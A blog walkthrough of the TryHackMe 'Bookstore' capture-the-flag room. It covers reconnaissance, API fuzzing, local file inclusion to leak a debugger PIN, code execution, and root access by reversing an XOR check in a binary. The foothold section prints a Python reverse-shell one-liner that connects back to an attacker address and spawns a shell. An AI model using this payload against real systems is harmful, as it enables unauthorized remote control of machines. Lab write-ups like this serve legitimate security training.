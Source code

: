 ```yaml
---
layout: post
title: "TryHackMe - Bookstore walkthrough"
---
```


# Recon

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687936687528/03137f46-e7f8-44b4-a587-9b0630f6c9a8.png )

A standard `nmap` scan reviews that the target has 2 ports open running `http` services and a conventional ssh service port open. `nmap` script also identifies the existence of a `robots.txt` file on port 5000.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687936722984/bf3cd713-9777-4d26-9cd2-fee486cbb4ff.png )

Navigating to the file located at port 5000 notifies us of the `/api` directory.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687936746056/0ea61b34-4e3b-462e-994d-63c16280fa65.png )

Navigating to the directory we are presented with an API documentation, from the looks of it we are able to send queries to the bookstore through the API.

# Enumeration

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687937516188/9d6ad3d5-bce3-4f00-8337-ad0a8daba597.png )

It is a common courtesy to run `gobuster` when enumerating websites. The results show us that there is another interesting directory `/console`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687937534994/22b83fb1-af7f-4770-9feb-c359e02b1595.png )

While we are able to access the console, it is protected by a PIN and the hint tells us that the PIN is printed out on the `stdout` stream of the shell that runs this server.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687937718771/b2bbd27b-feb4-4e11-b98c-f75ec4b4687d.png )

With the previous information gathered, we take a detour back to the original site at port 80 and take a look at the page sources. The comment tells us that the PIN we are looking for is stored inside the `.bash_history` file of the user `sid`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687938050246/45b66c13-4909-47c9-be20-9cd2a8c61fc8.png )

Taking another look at the debugger when inspecting the original site, we spot a `.js` file. In the comment, we are told that the previous version of the API contained vulnerable parameters susceptible to [Local File Inclusion](https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/) attacks.

# Gaining foothold

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687940618629/f9963b70-347a-4275-99eb-c4ea50ed5450.png )

Knowing that the API was vulnerable to LFI attacks, we use [wfuzz](https://medium.com/@Q2hpY2tlblB3bnk/lfi-enumeration-3bd11c6f1814) to try to look for possible parameters that might not be disclosed. However, the results review nothing that we did not already know based on the documentation discovered previously.  
`--hc 404` specifies an HTTP status code to be negated in the results. Because we will run into a lot of unsuccessful attempts with the 404 return code, we save some terminal screen estate by not cluttering it with those attempts.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687940646751/86c66e43-4d34-4a6a-89e6-500c4376993d.png )

We attempt the same fuzzing method again but for an older version number `v1` instead. This time we spot an interesting parameter `show`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687940667077/0b0aaa6a-d445-4a6e-a7dc-a91484b9bf89.png )

Following the cookie trail, we finally obtain the PIN when we query the `v1` version of the API with the parameter `?show=.bash_history`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687941147521/8cf55985-c625-481d-8371-5b0a04e40ba5.png )

The console tells us that we can execute Python expressions so we use the `subprocess` library to interact with the server. Here we can see that we are the user `sid` when we execute the `whoami` command.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687941625066/78f99d09-c34c-4039-b9b5-d17f36a8c7f1.png )

A subsequent `ls` show us the user flag in the form of a `.txt` file, we then `cat` the file and retrieve the user flag.

Knowing we will need to further explore the target, operation within the constraints of a Python console is less than ideal. We execute a Python [reverse shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) payload so we can operate in a shell environment on our machine.

```powershell
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$IP",4443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```
# Priv Escalation

After obtaining the shell on our `nc` listener, we start the process of privilege escalation to get the root flag.

Upon further inspection using `ls -la` we see a `try-harder` ELF binary file with root execution rights.

![image](https://github.com/sudonap/sudonap.github.io/assets/56335564/a0e6bf96-c340-49fb-b97f-146d607548dc)

We use the `strings` command to investigate the binary and we spot an interesting string `/bin/bash -p` which would give us a privileged shell when executed by the binary.

![image](https://github.com/sudonap/sudonap.github.io/assets/56335564/c2f1986f-df22-47bf-9b62-073ff64f1e99)

We transfer the binary onto our local machine with `python3` and `wget` in order to further analyze it using [Ghidra](https://ghidra-sre.org/).

![image](https://github.com/sudonap/sudonap.github.io/assets/56335564/fd6ab923-73c7-4909-b949-3ccc88ea30cf)

Loading the binary in Ghidra, we navigate to the `main` function. Here we can see that the program takes in user input with the `scanf` function and evaluates it. The user input is stored as `local_1c`. The result of `local_1c` XOR `0x1116` XOR `local_18 (0x5db3)` is then evaluated against `local_14 (0x5dcd21f4)`. If true, the command that gives us a privileged shell would be executed.

![image](https://github.com/sudonap/sudonap.github.io/assets/56335564/74d0532c-b72b-4bb2-a7a1-40033943cf5b)

We rearrange the equation and use Python to calculate the "magic number".

![image](https://github.com/sudonap/sudonap.github.io/assets/56335564/82f29b28-6c19-47f4-a4a0-b2f03e95f054)

We know that the reverse of any xor operation is itself so the reverse of bitxor is bitxor. 

Indeed, when we put the result of `0x5dcd6dea` into the original xor equation, it checkes out to the value of `0x5dcd21f4` which causes the program to call `/bin/sh -p`

After we input the magic number we are now `root`. Navigate to `/root` to obtain the root flag and complete the room.

# Conclusion

I started this room to further practice web API fuzzing. I was pleasantly surprised to encounter some reverse engineering to escalate to root. I wish that it was a bit more than just a basic analysis of the decompiled code. Nonetheless, I had a lot of fun doing the room and I hope this walkthrough helps you. Feel free to correct me if I made any mistakes in my explanation.
